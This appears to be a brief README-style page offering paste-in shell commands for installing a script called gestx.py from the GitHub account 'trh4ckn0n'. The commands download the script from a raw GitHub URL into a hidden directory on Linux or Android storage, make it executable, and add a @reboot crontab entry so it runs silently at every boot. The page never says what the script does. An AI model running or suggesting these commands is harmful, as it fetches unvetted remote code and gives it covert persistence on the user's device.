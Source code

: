 # files
curl -sSL https://raw.githubusercontent.com/trh4ckn0n/files/refs/heads/main/gestx.py -o gest.py
```bash
mkdir -p ~/.trhacknon && curl -sSL https://raw.githubusercontent.com/trh4ckn0n/files/refs/heads/main/gestx.py -o ~/.trhacknon/gestx.py && chmod +x ~/.trhacknon/gestx.py && (crontab -l 2>/dev/null; echo "@reboot /usr/bin/python3 $HOME/.trhacknon/gestx.py >> /tmp/gestx.log 2>&1") | crontab -
```

```bash
mkdir -p /sdcard/Download/.trhacknon && curl -sSL https://raw.githubusercontent.com/trh4ckn0n/files/refs/heads/main/gestx.py -o /sdcard/Download/.trhacknon/gestx.py && chmod +x /sdcard/Download/.trhacknon/gestx.py && (crontab -l 2>/dev/null; echo "@reboot /usr/bin/python3 /sdcard/Download/.trhacknon/gestx.py >> /tmp/gestx.log 2>&1") | crontab -
```
